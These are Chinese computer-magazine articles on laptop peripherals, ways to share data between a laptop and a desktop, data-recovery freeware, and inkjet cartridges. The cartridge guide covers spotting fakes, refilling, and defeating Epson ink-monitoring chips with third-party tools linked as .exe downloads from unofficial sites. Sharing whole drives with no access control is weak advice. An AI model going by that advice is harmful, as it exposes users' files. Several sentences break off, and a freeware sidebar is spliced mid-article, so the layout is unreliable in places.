尽管 IBM 在桌面鼠标领域并无很高的知名度，但是这款迷你光电鼠标可谓是笔记本用户中人气最高的产品。拱形设计使得手部与鼠标的贴合更加紧密自然，而滚轮也有很好的操控感受。事实上这款产品并无太多的功能，但是舒适的手感与出色的操控性使得其性价比十分突出。不过要提醒大家的是，市场上仿冒 IBM 迷你光电鼠相当多。
参考价格：80 元

##### 5. 专用财务键盘

由于笔记本机身体积的限制，笔记本电脑的键盘通常没有设置小键盘（数字键盘），这对普通用户来说影响不大，但却给从事财会工作的笔记本用户带来很大不便。目前比较好的解决方案就是外接数字键盘。如图 12，这款财务专用笔记本键盘采用 USB 即插即用方式，有效拓展了笔记本键盘的功能，而且采用了超薄设计，体积小巧重量也很轻，与笔记本一起携带很方便。市场上这类专用键盘很容易买到，价格一般在 50 ~ 80 元左右。

##### 6. 游戏控制器

笔记本上玩 3D 游戏已经不是什么奢望，然而想要体验最佳的游戏操控感还需要其他辅助设备。对于模拟格斗游戏、飞行游戏、体育竞速游戏等等，键盘与鼠标并非最佳选择，此时使用各种游戏外设将对笔记本用户大有裨益。手柄就是在游戏过程中取代键盘或者鼠标操作，对游戏角色进行方向或者动作的控制。部分手柄还可以实现按键连发、数字编程以及振动等功能，其中振动功能和数字编程相对比较重要，前者能使玩家在游戏过程中体验逼真的游戏临场感，而后者可以直接映射复杂的键盘组合键操作，很适合用来一键生成“必杀技”。

###### (1) SANWA SUPPLY Mobile Controller (如图13)

这款极具创意的产品采用单手操作设计，用户可以使用大拇指的第二节来控制十字方向键，另外两个按键作为功能键由大拇指的指尖来控制。虽说这种操控的确有些难度，甚至还需要使用前的适应时间，但是这对于笔记本用户的意义非常重大。单手操作无疑更加自由，甚至可以结合鼠标一起使用，也可以当成模拟鼠标，甚至不需要鼠标垫。参考价格：国外新品，暂未上市


###### (2) 罗技极限天驹 (如图14)


这款罗技极限天驹带有G-FORCE® Tilt motion sensing功能，这是一种让人爽到极点的设计。极限天驹内部带有一个传感器，它能自动追踪到手控制手柄的分量，当你移动手柄时，传感器能够模拟控制。此外，极限天驹也是一款数字化手柄，支持键盘编程，而且它的手感也相当不错，符合人体工学设计。参考价格：190元

##### 7. 寻找台式机感觉：扩展坞与底座

扩展坞（Docking Station）就是用来扩展笔记本电脑功能的底座，通过接口和插槽，它可以连接多种外部设备，诸如驱动器、大屏幕显示器、键盘、打印机、扫描仪等等，弥补轻薄笔记本电脑附件较少的缺陷。图15为使用扩展坞连接各种外设。尽管台式机比笔记本便宜很多，在结构上比这种笔记本加扩展坞的设计更紧密，但是如果你始终以笔记本为主要工具，并且不打算另外添购台式机的话，扩展坞就是很好的选择了。


不过，一般只有光软外置的超轻薄笔记本电脑才有可能配置扩展坞。目前IBM X系列，DELL Precision M系列、HP Omnibook 500系列、索尼U系列都有相应的扩展坞，一般能够提供DVD-ROM甚至COMBO或是DVD刻录机等光存储设备，甚至还能扩展更多的外部接口。对于用户而言，可以实现将台式机配件连接到扩展坞，然后将笔记本作为“台式机主机”连接到扩展坞，在固定场所应用时就能享受到更多便捷性。

除了这些专用的扩展坞，市场上还有专门用于散热的笔记本底座。大多数轻薄型笔记本都面临着巨大的热量负担，特别是在夏天使用时，放在膝盖上的感觉非常不好，甚至笔记本键盘的位置也明显发烫，CPU因为温度过高而降频工作。散热底座一般由导热性较好的材料制成，通过USB或者扩展坞接口取电来驱动底部的风扇。少数产品甚至还能自带电池，能够延长笔记本的续航时间。

###### (1) IBM ThinkPad Docking Station

这是IBM第一代的ThinkPad扩展坞，可以支持T30、X30、R32以及A31以下级别的ThinkPad笔记本。打开这款扩展坞的底部，我们会看到一个与台式机主板上相同的PCI插槽（不是MiniPCI），通过这个PCI插槽可以使用一切基于PCI界面的扩展卡。图16为ThinkPad扩展坞的PCI接口。这款扩展坞不仅提供了Ultrabay2000驱动器扩展槽，而且丰富的接口也相当实用，堪称是IBM笔记本用户的最佳扩展坞。参考价格：550元


###### (2) Acer EasyPort 易插得

专供Acer笔记本使用的EasyPort易插得是一种简易型扩展坞，其作用仅仅是提供各种接口，包括USB Hub、外置显示器接口、闪存读卡器、网络接口、键盘鼠标接口等等，用户可以轻松接驳各种外设。由于舍弃了光驱功能，因此这种简易型扩展坞的体积更为小巧，也不会占用很多的空间。参考价格：380元

###### (3) NIP-2500 笔记本散热底座

这款散热底座的基本材质采用高达99.5%纯度的铝，即使不配合散热风扇使用，亦有良好的散热效果。NIP-2500采用USB供电，无须为电源担忧。散热底座的表面有多条散热槽，内部也采用和CPU散热器类似设计的散热片，能够快速导出热量。更为重要的是，这类散热底座十分轻盈，甚至可以考虑将其外带便携使用。参考价格：470元

###### (4) Coolermaster Coolpad 散热底座

Coolpad以全铝制造，扮演着一个大型导热管的角色，两个60mm的风扇会把冷空气往下吹（如图17）。在底座后面虽然没有橡胶垫，但因为后部比前部高，可以很自然地处于倾斜位置，更加便于使用键盘。事实上，Coolpad的结构十分简单，效果也令人满意。

### 四、没有做不到，只有想不到：笔记本另类外设

笔记本丰富的外设不仅仅局限于功能性扩展，各种人


#### 1. 笔记本包

笔记本包与一般的提包不同，必须能够给笔记本这个贵重的电子产品以足够保护。笔记本包有原装与非原装包之分。原装包有IBM、DELL、东芝等品牌。一般来说，许多品牌笔记本电脑在销售时都有一个笔记本包赠送，只是有些商家会扣留笔记本包单独销售，以获得更多的利润。但有些品牌的笔记本电脑在购买时是不赠送包的，在这种情况下，如果你的笔记本电脑在市场上有原装包出售的话，建议尽量购买原装包，能与机器更加匹配，而且原装包多数是由专业的笔记本包代工厂商生产，能根据笔记本电脑的特性来设计和制造，做出来的产品会更加专业。例如IBM著名的“红点包”，就是由长期为IBM、HP和TOSHIBA这些著名笔记本代工的厂商——TARGUS设计和制造出来的，仅防水性这一项指标就经过了非常严格的检测，其他方面的表现也有独到之处。

当然，一些比较有名的原装包假冒伪劣产品比较多，往往难以鉴别，给消费者购买带来一定的麻烦，另外，有些原装包的款式过于正规和商务化，难以满足人们求新求异的审美情趣。非原装包的优点是价格相对适中和合理，而且款式多，消费者挑选的余地大，不足之处在于它的做工通常不够专业和精细，许多非原装包都是由制造皮包甚至是制衣厂之类的厂商生产，不在乎产品的美誉度，其用料和做工与原装包相比有一定差距，产品质量参差不齐。

#### 2. LCD保护膜

比起外壳的维护，笔记本屏幕的保养更为重要。因为它是整个笔记本中价格最为昂贵的配件，而且屏幕的好坏直接影响着使用者的舒适度。长时间使用笔记本电脑，屏幕的亮度会变暗，这是由于屏幕内的灯管老化造成的。如果想降低笔记本电脑屏幕变黄的速度，可以适当调节使用时的亮度，降低它的老化速度。

但是，要想保护笔记本屏幕免受硬伤，使用LCD保护膜非常必要。相对于传统显示器，液晶屏幕在使用中更容易被损伤，再加上笔记本使用环境很复杂，很容易因为一次不小心的刮蹭而出现了坏点或者亮点。在使用专为笔记本液晶屏幕设计的保护膜后，即使在屏幕上指指划划也没有问题。然而需要注意的是，劣质LCD保护膜会严重影响画质，尤其在清晰度和锐利程度方面更加明显。劣质保护膜一般也很难贴得平整而没有气泡，实用效果令人不敢恭维。真正的LCD保护膜应该做到贴合紧密没有气泡，而且清晰度和色彩不受到明显的影响。

#### 3. USB Hub

为了得到更多的USB接口，使用USB Hub是很好的解决方案。由于设计上的原因，大多数笔记本电脑都只提供了两个USB接口，经常会不够用，这时USB Hub就可以派上用场。顾名思义，USB Hub是USB集线器的意思，这和网络集线器的概念类似，它起到一个总线分配和仲裁的作用。

需要注意的是，USB Hub分为有源与无源两种，前者因为使用独立的变压器供电，因此可以顺利接驳多个大功耗的USB外设；而后者依靠USB本身提供500mA电力，只能应用USB键盘鼠标等低功耗设备。此外，根据USB版本的不同，USB Hub分为2.0和1.1标准。在使用USB 1.1 Hub时，就算连接在USB 2.0端口上也会降低速度。

#### 4. USB转传统接口

电脑科技日新月异，很多昔日曾立下汗马功劳的接口规范都逐渐远去。在需要用上某款旧型号产品时，经常会因找不到相应接口而急得焦头烂额。这种情况下，一个接口转接件或许能解决燃眉之急。除了我们买鼠标时经常见到的USB转PS2适配器外，这方面的产品还有USB转串口适配器、USB转并口适配器、USB转ISA接口适配器、USB转多个PS/2适配器部件，另外还有USB转SCSI适配器、USB转IDE适配器等等。

#### 5. USB供电设备

在USB规范设计中，提供了500mA的电力，这也为很多奇思妙想的设计奠定了基础。时至今日，我们能够看到的有各种USB手机充电线、USB电风扇以及USB台灯等等。这些设备都没有用到USB中的数据线，仅仅利用了供电线。

##### （1）夜间照明小灯

相信不少人都有黑暗中使用笔记本的经历，要在笔记本键盘上实现完全盲打是一件很费力的事，因此IBM的ThinkLight键盘灯是一个不错的设计。ThinkLight安装在屏幕上方，打开时光线均匀地照在键盘上，既实用又不晃眼。此外，苹果PowerBook甚至还有全背光式键盘灯。事实上，利用万能的USB接口，完全可以实现夜间照明。目前市场上主要有两种电脑专用台灯，一种是台式机也适用的USB接口普通台灯，其特点是价格便宜，做工简单；还有一种是笔记本专用台灯，由一个夹子固定在笔记本的液晶屏上，采用单独供电方式。

##### （2）USB手机充电器

在户外移动办公时，如果突遇手机电池用尽会十分着急，这时各种USB手机充电器能帮上大忙。USB接口本身能输出电力，配合各种转接头之后就可实现充电操作，这与大家使用USB数据线给PDA等设备充电是同样的道理。当然，不同手机需要不同的充电接口，因此选购时可得看清楚，价格一般在20～40元之间。

## 沟通无极限——笔记本数据共享五项绝招

文/方成亮

客观而言，目前笔记本仍然充当着“第二PC”的角色，因此免不了要解决与台式机之间的数据交换问题，有时甚至还需要解决共享上网的难题。对于最新的迅驰笔记本而言，用好无线网卡是关键，不过那些老式本本就得多想办法了。下文提供了几种解决途径，适用于不同的场合，大家可以根据使用情况有针对性地选择。

### 第一式绝招：红外线对接

红外线通讯是一种廉价、近距离、无线、低功耗、保密性强的通讯方案，在PC机中主要应用于无线数据传输，有时也用于无线网络接入和近程遥控。与蓝牙或者IEEE802.11b技术相比，个人认为红外线技术并不落伍，凭借低廉的成本完全拥有存在空间。目前几乎所有PDA、笔记本、手机都直接集成红外线通讯模块，而且部分数码相机或者打印机也具备红外线通讯模块，因此，为主板安装一个红外线发射器无疑是架起了一座无线桥梁。

从原理上说，自己DIY一个红外线发射器并不困难，不过所花的精力以及效果也许很难让人满意，而且多数用户缺乏相应的工具。推荐大家购买一个红外线发射器，使用时只要将发射器的5pin插头与主板上的红外线插针相连即可。大家在连接时一定要注意各个数据线的定义，一般5pin插针中有4根插针是有效的，其中黑线（GND）表示接地，红线表示VCC供电，蓝线表示红外接收，绿线表示红外发射，具体对应参阅主板说明书，如图1为主板上的红外线接口连接标准。

J4: IR (红外线连接端)


| 接脚 | 定义 |
| :--- | :--- |
| 1 | VCC (+5V) |
| 2 | 无作用 |
| 3 | IR 资料输入端 |
| 4 | 接地线 |
| 5 | IR 资料输出端 |

在使用主板红外接口前，还需要进入BIOS设置。在BIOS的INTEGRATED PERIPHERALS子菜单中，将Onboard IrDa Port或相关选项设置成Enable，UART2 Use Infrared项设置为IrDA。一般情况下，是将主板的COM2设置为红外线传输接口，因此COM2接口将失去作用。进入Windows，系统会提示发现“串行红外线端口”，并自动安装驱动程序和红外线协议。如果是Windows 98操作系统，可能会要求插入操作系统安装盘。

在笔记本电脑上，红外线收发器显示为小的暗红色窗口。首先检查所要连接的设备是否已启用红外线功能且工作正常，然后对准设备，使红外线收发器之间的距离不超过1.5米。一旦对准设备，任务栏上的暗红色图标将被激活。如果在台式机与笔记本电脑间通讯，可以直接使用Windows内置的“红外线传输”进行数据收发，如图2显示找到红外设备后开始通讯。在使用红外线进行数据传输时，大家完全可以将移动设备理解成客户端，只要保证通讯不中断，数据传输将相当简单，就像使用资源管理器一样。


图2

### 第二式绝招：USB Link Cable对接线

所谓的USB联机线，其实是双A头、中间有一个大“疙瘩”（实为控制芯片）的特殊连接线。普通的USB线是一端扁扁的A头，另一端是方形的B头。特别提醒大家，市面上有不少10元左右的USB双头线，号称也是USB Link Cable，但是事实上这类线是不能使用的。大家要想分辨相当容易，一般而言，有中间这块大“疙瘩”的都是正宗双机互联线，图3是真正可以数据传输的USB Link Cable，而


图3

反之十有八九是假货。这里介绍的产品是由台湾 Creative Stone 公司推出的 Smartrans，这款产品性价比很高，目前 50 元左右就可以拿下。

Smartrans 的兼容性很强，这也是 USB 产品的一大特点。只要操作系统支持 USB 接口，都可以顺利安装。将线的一端插入笔记本 USB 接口，开机进入 Windows，系统会提示找到新硬件，开始安装驱动程序，建议大家选择“搜索适于我的设备的驱动程序”，可以省去不少麻烦。驱动程序向导会询问 INF 文件的路径，这时只要插入产品附带的驱动程序，然后选择相应的盘符进行搜索就可以了。安装成功后，向导会给出明确提示，如图 4 为成功安装 USB Link Cable 后的提示画面。如果大家没有看到这个画面，代表安装过程有误，需要重新来过。


最后重新启动系统，只有在重启之后，该硬件设备才能正常使用。如果要确认设备是否正常工作，只要打开系统属性菜单，查看“通用串行总线控制器”中是否有一个 USB Bridge Cable。一般来说，只要存在该设备名并且旁边没有惊叹号，就可以肯定 USB Link Cable 已经正确安装。当然，同样的过程在台式机上也必须运行一遍。

在实际使用前，我们还得安装上相应的配套软件 SMARTrans。进入 SMARTrans 界面，只要两台机器都是打开的，并且保持 USB Link Cable 正确连接，软件会同时打开笔记本硬盘和台式机硬盘。此时的界面类似于著名的文件管理软件 Windows Commander（如图 5），大家可以像使用本地硬盘一样调用远程硬盘或者复制、移动到特定目标，操作相当方便，因此就不多介绍了。


### 第三式绝招：无线网卡对接

迅驰笔记本不仅仅拥有性能强大、功耗极低的处理器，无线网络也是其亮点之一。通过内置的 Intel WIFI 无线网卡，迅驰笔记本用户可以很方便地连接本地局域网，甚至无线接入 Internet。非迅驰笔记本可以通过 MiniPCI 或者 PCMCIA 接口扩充无线网卡，其效果是完全一致的。

尽管迅驰笔记本内置的 Intel Pro 2100 无线网络模块并不能直接接入 Internet，但是配合无线宽带路由器工作，实现无线 Internet 接入以及数据共享非常容易。无线宽带路由器的作用是充当网关，在无线客户端（迅驰笔记本）以及台式机之间架起桥梁。

首先，在台式机上将网卡的 IP 地址设定为与无线路由器同一网段，所谓同一网段就是保证 IP 地址的前三位相同。关于无线路由器的自身固定 IP 地址，大家可以参阅说明书，一般为 192.168.168.254 或者 192.168.0.1。

重新启动后打开 IE 浏览器，输入无线路由器的 IP 地址，系统会要求输入登录密码。一般而言，该密码可以在产品的说明书上查询到。毫无疑问，最简单方便的配置方法是使用设置向导（Setup Wizard）。在 Connection Profile Configuration 页面，选定宽带网类型，一般 ADSL 选择 via PPP over Ethernet，Cable 或者 FTTB 选择 via DHCP。如果 ISP 需要输入用户名和密码，可以在下面的相应位置输入。

下一步也是最为关键的，设置 ESSID 值并牢记这一字符串，如图 6 显示最重要的 ESSID 值，用来区分不同的无线网络，同时笔记本上的无线网卡必须使用相同 ESSID 值作为密钥。随后从主界面开始依次选择 CONFIGURATION → Advanced → IP/DHCP，将 DHCP 项设为 Enable，此时无线网卡会自动获得 IP 地址。至于其他选项可以使用默认值。


在迅驰笔记本上，我们根本就不需要建立拨号连接方式，因为无线宽带路由器可以自动完成，唯一需要做的是搜索无线网络信号。在 Windows 2000/XP 中打开无线网络属性，系统自动搜寻可用的网络。与本地局域网类似，大家可以在网上邻居中访问所有台式机资源，前提是台式机上的文件夹被设置为允许共享。

### 第四式绝招：普通网卡对等网

如果需要频繁地交换大量数据，使用有线网卡将是成本最低也是最为便捷的方法。将台式机与笔记本网卡的 IP 地址分别设定在同一网段，如 192.168.0.1 与 192.168.0.2。保证工作组名称相同，而机器名称不重复。在这样的情况下，只要连上交叉的双绞线，台式机与笔记本之间就可以 Ping 通。

下一步操作十分简单，在台式机上将硬盘根目录设置为允许共享，如图 7 将硬盘分区根目录设置为共享，笔记本即可在网上邻居中轻松共享数据。如果台式机与笔记本都使用 100/10M 网卡，传输速度将非常快，大约能达到 6～10MB/s，

## 免费软件千里马——数据修复专家

1.  多媒体文件修复：New All Media Fixer Pro

    软件下载地址：http://www.realconvert.com/MediaFixer/index.htm

    汉化版地址：http://www2.skycn.com/soft/22368.html

    软件亮点：具有全能型的多媒体文件修复功能，支持可修复的文件格式有：WMA、WMV、ASF、WM、ASX、AVI、MP3、MP2、MP1、MPA、MPGA、MPG、MPEG、MPA、DAT、WAVE，而且成功率极高。

    软件使用：软件界面设置相当明确，通过快捷工具栏上的按钮即可完成全部操作。首先单击“添加媒体文件”按钮，从硬盘中导入待修复的影音文件；然后再单击“开始检查与修复”按钮；稍后即可完成。除了视频、音频文件外，软件也能修复图像文件。出于软件美化的目的，软件还增设皮肤更换功能，这为单调的修复工作增色不少。

    总的来看，软件修复成功率高可达82.8%到97.6%，适合经常从网络中下载资源的朋友选用。

2.  光盘数据修复：CD/DVD Data Recovery V1.0.800

    软件下载地址：http://www.skycn.com/soft/26677.html

    软件亮点：适合于光盘数据、多媒体数据恢复，尤其是各类无法正常读取的 CD、DVD 中恢复数据。

    软件使用：操作非常简单，只需单击两次按钮即可完成全部工作。单击“添加文件”或“添加文件夹”，定义好修复后的保存路径及速度控制后，点击“开始”按钮就可以开始修复了。修复的时间会因选择的文件大小不同而各异，一般整盘修复需要1小时左右。

    总的来看，软件操作非常简便，极易上手。其修复的实质是通过软件强有力的读盘功能，将光盘文件读取到硬盘后再行开启，而在读取过程中再对受损文件做修复处理。

3.  误删文件修复：Smart Data Recovery V3.2

    软件下载地址：http://www.smartpctools.com/

    软件亮点：能够修复绝大部分因误操作而删除的文件，包括回收站中已经清空的文件，支持NTFS磁盘格式、随身盘、记忆卡等。

    软件使用：启动软件后进入主界面，其中“浏览”按钮是指根据软件自动查找的结果实施恢复；“查找”按钮是指手动恢复指定的文件；而“选项”按钮则是定义保存恢复后文件的路径。单击“浏览”按钮，在随后弹出的窗口右方，即可看到所有已被删除的文件列表，从中勾选需要恢复的文件名，再单击“恢复”按钮即可。如果忘记了误删的文件名，可使用“浏览”功能让软件自行查找指定目录所有被删除的文件列表，被删文件时间可追溯到几年前。

    总的来看，软件提供的手动与自动文件恢复功能很实用。如果不小心误删了文件，通过此软件也可以达到意想不到的效果。

### 第五式绝招：移动存储与硬盘转接

使用移动存储设备是很多用户都能想到的方法，其中USB闪存最为方便。如果觉得USB闪存容量不够大，大容量的CF、SD存储卡是很好的替代品，只需配备一个读卡器即可。不过，很少有用户配备1GB以上的数码存储卡，因此更大容量的移动存储还需要依靠DVD刻录等光存储技术。

不过在需要复制几十GB的数据量时，使用这类移动存储设备就显得十分吃力了。外置USB硬盘固然是很好的解决方案，但是其成本高昂。其实，只要掌握一些笔记本的拆卸技巧，给笔记本硬盘安装转接卡是最方便也是最快捷的方法，如图8为转接卡让笔记本硬盘在台式机上使用。

大多数笔记本硬盘都采取抽拉式设计，只需要找到硬盘安装位置并取下即可。随后将转接卡安装在笔记本硬盘上，就能得到普通台式机IDE硬盘的数据与电源接口。下一步不用多说，直接连接在台式机上作为从盘，速度表现十分让人满意。当然，这种方法唯一的不便在于拆卸麻烦，部分笔记本有可能会因此丧失保修资格。


## 喷墨打印机耗材使用攻略

文 / 方成 亮

目前打印机的价格已相当便宜，600元左右的彩色喷墨打印机就能获得令人非常满意的照片级打印效果，不少产品的黑色打印效果更是可以媲美高档激光打印机。然而可惜的是，打印机耗材限于工作原理以及厂商市场策略的因素，成本始终居高不下，而且假冒伪劣产品充斥市场。对于那些追求打印品质的用户而言，如何选购正品墨盒是一个让人头疼的问题。在希望节省成本的情况下，兼容耗材也是值得推荐的方案。本文将为喷墨打印机用户提供全面的耗材选购和使用提示，帮助大家更加高效地降低使用成本。

### 一、火眼金睛：识别灌装的“原装”墨盒

假冒墨盒质量较差，因为它们从生产开始就先天不足。有的假冒墨盒是将回收的原厂墨盒灌装通用墨水，这种情况因为无法判断墨水质量而风险较大。造假者总是买最便宜的墨水来造假，牟取最大利润。而最坏的情况是手工式作坊生产出来的假墨盒，因为墨盒的质量实际上比墨水更重要，在储运与填充的过程中，会不可避免地有很多杂质混入。原装墨盒为保护喷头，会设置一道最后防线——滤网。墨盒的滤网一般都使用高密度过滤材料制作，而手工式作坊制造的墨盒一般使用市场上常见的尼龙布代替，再加上普通的海绵和廉价墨水，非但起不到过滤效果，还会造成更多杂质，直接威胁喷头。

翻新后的假冒墨盒，即使以“次品”的面目出现，最低都可以卖到100元左右，有些品牌还可以卖到两三百元。高额利润让造假者趋之若鹜，现在电脑市场甚至是大街上经常能见到高价回收空墨盒，事实上他们回收的墨盒都被用来制假。我们可以用以下方法鉴别是否是回收的旧墨盒。

1.  看外包装
    正品的外包装印制精美，而假货的外包装一般是翻印的，图案和文字比较模糊。正品外包装上的生产日期、序列号等都是由机器压上的，显得有凹凸感；假货则显得比较光滑。

2.  看真空包装袋
    真墨盒包装袋与盒体紧贴密实，袋内没有空气。假墨盒包装内残存部分空气，包装袋与墨盒贴的不紧密。拆开包装袋，如果墨盒中的墨水因压力改变而溢出，则可以肯定填充过墨水，这是由于墨盒在重新灌注墨水时无法掌握灌入量所造成的。

3.  看喷头上的密封塑料贴纸
    真墨盒的密封薄膜贴得比较紧，假墨盒贴得比较松，有时甚至可以看到明显的脱落痕迹。

### 二、喷打墨盒选择：原装耗材还是兼容耗材

尽管喷墨打印机在技术上存在诸多缺点，但它的市场占有率一直保持最高，因此其耗材有巨大市场。全球打印机和耗材市场基本上由Epson、Canon、HP、Lexmark等大品牌占据，总市场占有率达到80%左右，另外20%的市场由其他品牌争夺。长期以来，打印机厂商在宣传中，一直强调要使用原装耗材，并声称这是为了避免损坏打印机。这样的宣传策略，其目的是显而易见的。技术垄断带来的必然是价格上的说一不二，原装耗材的高价是打印机用户心中永远的痛。

> “兼容耗材的质量差；打印效果差；会给打印机造成损害；对于使用兼容耗材造成的故障，我们是不保修的。”

这些打印机生产商给出的警告，绝大多数用户都非常熟悉。“质量差”是原装厂商炮轰兼容耗材的主要理由，让相当多的用户在兼容耗材面前犹豫不决、左右为难。其实在兼容耗材中也有高质量的产品，以天威、耐力、清华同方等品牌为例，旗下产品价格低廉，但却实现接近原厂耗材的打印效果，性价比相当高。兼容耗材并不是假冒原装耗材，两者有着本质的区别。作为精打细算的消费者，结合使用原装墨盒与兼容耗材是最佳选择。前者有着打印质量优势，可以对外使用；后者有着巨大的成本优势，适合对内使用。

小贴士：兼容耗材也需看情况使用
不同的打印需求对耗材的要求不尽相同。以最普遍的文本打印为例，此时最便宜的填充墨水完全能够胜任，只是大家要购买品牌产品，这样可以避免损坏喷头。如果是用于照片输出，各种填充墨水的效果可能会差一些，只要对色彩还原的要求不高，那么填充墨水和兼容墨盒都值得考虑。

### 三、四大品牌墨盒真伪辨别方法

#### 1. 爱普生墨盒真伪辨别方法

由于爱普生打印机在国内市场占有率较高，因此市场上销售假货的现象特别严重。辨别的主要方法是查看防伪标志，爱普生的新变色防伪标是利用特殊印刷技术制造，其特点是在变色防伪标上涂有一层特殊油墨，在变换观察角度时，防伪标会有青铜色和绿色的颜色变化，如图1为使用防伪标鉴别Epson墨盒的真伪。如果防伪标的颜色不在青铜色和绿色之间变化，则可确认是假墨盒。

更为重要的是，爱普生所生产的墨盒外包装上均贴有电话电码防伪标签。只要撕开防伪标签即能见到内附的21位数码，拨打8008208850免费电话（或16840315），按语音提示输入21位数码并按#号键结束，稍后会有语音提示重复刚才输入的数码，确认无误后再按1键即可得知是否真品墨盒。

#### 2. 佳能墨盒真伪辨别方法

市面上佳能的假墨盒甚至比爱普生的还要多，这与佳能的防伪措施不力有一定关系。目前，佳能品牌的正品墨盒上都贴有激光防伪标签，可以使用防伪视镜来辨别真伪。具体操作方法为：用防伪视镜查看贴在佳能墨盒外的激光防伪标签，左镜看见防伪标签显示为黑色，右镜显示为彩色。如果没有出现上述情况，很可能就是假冒佳能墨盒。

不过，并非所有商家都能提供防伪视镜，而且部分早期生产的佳能原装墨盒可能并不支持这种鉴别方法。所以大家可以在购买时要注意以下几点：一是真品的外包装印刷精美且做工精细，封口处粘贴很整齐，包装盒上的编号是针打的并排列整齐，而假墨盒的外包装由于翻拍的缘故，印刷质量粗糙，有的包装盒无编号，或者用印章盖上去的，这是从外包装上区别真假墨盒。二是在内包装方面，佳能墨盒有锡纸和塑料两种包装，假货的锡纸包材质地较软，印刷粗糙，有渗透现象，如图2为改装墨盒的进气孔和出墨口会留有墨水痕迹，有些与真品的印刷字体不一致。另外，真品的塑料包装是热封制成，压制的纹路十分清晰，假货的封口则是胶粘的，纹路不清晰。

#### 3. 惠普墨盒真伪辨别方法

惠普墨盒在包装盒侧面贴有新开发的防伪标签，标签和其中hp-invent文字的颜色会随着观察角度的不同而变化。正面看是蓝色，从侧面45度看变成黑色，而且在变换角度看时，还有闪烁现象。另外，新包装还有一些辅助的防伪设计：在产品外包装的右下角都会有生产地点及日期（竖行字体），原装惠普产品的文字触摸会有凹凸感，而有些假冒产品手感平滑。此外，原装墨盒印刷更加精美，条纹和包装上的人物图案清晰。根据以上几点，应该说比较容易识别假冒惠普墨盒，毕竟仿冒难度已经很大。

此外，还有一项更为隐秘的防伪技术用在墨盒包装上，大家可注意查看垂直穿过密封条的热敏感条纹。原装惠普墨盒的可变色密封条用蓝色热敏感墨水和纸标签做成，当接近热源，比如人们用手指按住密封条时，可变色的墨水就会变淡，移开手指以后，可变色的墨水又会恢复其本来的蓝色。

#### 4. 利盟墨盒真伪辨别方法

由于利盟墨盒全部采用喷头一体化设计，因此市场上几乎没有假冒产品，只有使用回收墨盒填充墨水再销售。好在利盟开通了800免费电话查询，用户拨打800免费电话立刻就能辨别产品真伪，有效地降低了购物风险。

### 四、文本打印捷径：廉价的填充墨水

兼容耗材在原厂高压和假冒产品的双重挤压下，能顽强生存并发展至今，本身就证明了其存在价值。它在促进喷墨打印机市场发展，制约原厂墨盒暴利，乃至提高用户环保意识等方面都发挥了积极的作用，是不容忽视的市场力量。一般而言，原厂墨盒在墨水用尽之后，可以通过注射填充墨水以继续使用。下面看一下如何进行这项操作，我们以耐力黑色兼容墨水和Lexmark 3200的12A1970黑色墨盒为例。这款耐力黑色兼容墨水是专门针对Lexmark黑色墨盒设计，因此表现很不错。大家先根据产品（打印机）型号购买相应的填充墨水，注意自己选购的是黑墨盒、彩色墨盒还是照片墨盒。一般来说，质量优秀的填充墨水都是针对部分型号的墨盒，如果购买错了，打印效果肯定会严重偏色。接下来取出待充的墨盒，并且打开耐力墨水的包装，里面共提供3个工具，分别是固定夹、钻孔器和兼容墨水，基本上其他品牌的兼容墨水也是这样。因为墨盒很难平放在桌面上，不利于操作，因此最好使用固定夹把墨盒定住，这样会大大减小操作失误的几率。然后在墨盒顶端用针头扎孔，如图3为在墨盒顶部开孔，扎孔的位置要距离通气孔一段距离。下一步将墨水瓶的针头插入钻孔，用力按压墨水瓶灌注墨水，如图4为在开孔处灌入填充墨水。需要注意的是，

### 五、破解芯片干扰:彻底征服Epson墨盒

尽管自己灌注兼容墨水是很好的解决方案，但是Epson采取了IC芯片监控的方式来防止这种行为。对于消费者而言，选择兼容耗材是自身的权利。虽说部分劣质耗材确实会损伤打印机，但是品牌兼容耗材的效果还是相当不错的，而且价格低廉。

#### 1. 强行更换墨盒

Epson的墨水容量监控，是依照装入墨盒时打印机设置的纸张类型，以及打印过的张数来计算判断的，大约打印100张A4后它就认为墨水已经耗尽，事实上此时墨盒中墨水还剩不少。如果此时不正常更换墨盒，而是在打印头小车刚开始从右向左缓慢移动时强行关闭电源，小心缓慢地将墨盒架移动到更换墨盒位置（即打印机打开后的最左边），更换墨盒后再将墨盒架移动到开始的位置（如果像正常更换墨盒一样将它留在最左方，程序会出错并可能损坏墨盒架移动皮带轮和电机），再执行一下打印喷嘴清洗程序就可以正常使用了。

这种方法虽然简单，但是也有不小的弊病。首先强行更换墨盒的操作具有一定危险性，弄不好就会损伤打印机。更加棘手的是，一旦强行更换墨盒，Epson的监控程序就会失控。有时已经没有墨水了，它还强行打印；有时墨水还有很多，程序却显示墨水用尽，拒绝打印。因此，强行更换墨盒只是治标不治本的应急方法，我们要谨慎采用。

#### 2. 使用软件破解程序

既然Epson的墨盒是通过可编程芯片来实现监控，就可以通过一些特定软件将其破解。著名的兼容耗材生产商Nomi推出了一款效果极为出色的破解软件，它可以轻松地去除Epson墨盒的监控，让我们自由地填充墨水。Nomi的这款软件可以在 http://down.hanzify.org/download/HB-Epson680.exe 下载。

使用Nomi之前，确保打印机处于联机状态。Nomi要求打印机通过并口方式连接，这一点千万不能弄错。由于Nomi的功能是将“墨盒已满”信息写入IC芯片，因此使用前应先将墨盒填充满，顺序不能颠倒。Nomi的功能非常强大，我们只需要选择是彩色墨盒还是黑色墨盒即可进行破解，如图5显示运行Nomi后选择墨盒。在Nomi对IC芯片写入信息时，必须保证电源供应，千万不能停电，这与BIOS刷写一致。

除了Nomi以外，Inklevel也是一款很出色的破解软件。由于Nomi针对Color系列比较有效，在Epson Photo系列打印机上经常无效，因此大家可尝试一下Inklevel。下载地址为 http://jimstar.narod.ru/InkLevl0-9-42b.exe。

Inklevel能够对付多个型号的Photo系列打印机，只要在执行程序时进行相应的选择即可。在功能上，Inklevel更加强大，它可以读取IC芯片的数值，显示IC芯片所记录的墨盒剩余量。Inklevel破解非常方便，但要注意别把彩色墨盒与黑色墨盒搞错。

### 六、纸张更要节约:使用FinePrint缩印软件

或许是出于保护耗材销售的原因，大多数打印机厂商都不愿意开发优秀的缩印软件，这无疑给用户节约纸张带来诸多不便。通过FinePrint缩印软件，几乎任何一款移动打印机都可以实现4:1的缩印，而且清晰度也能让人接受。FinePrint的安装十分简单，完成后会生成一个虚拟打印机。每当需要缩印时，选择这部虚拟打印机即可。

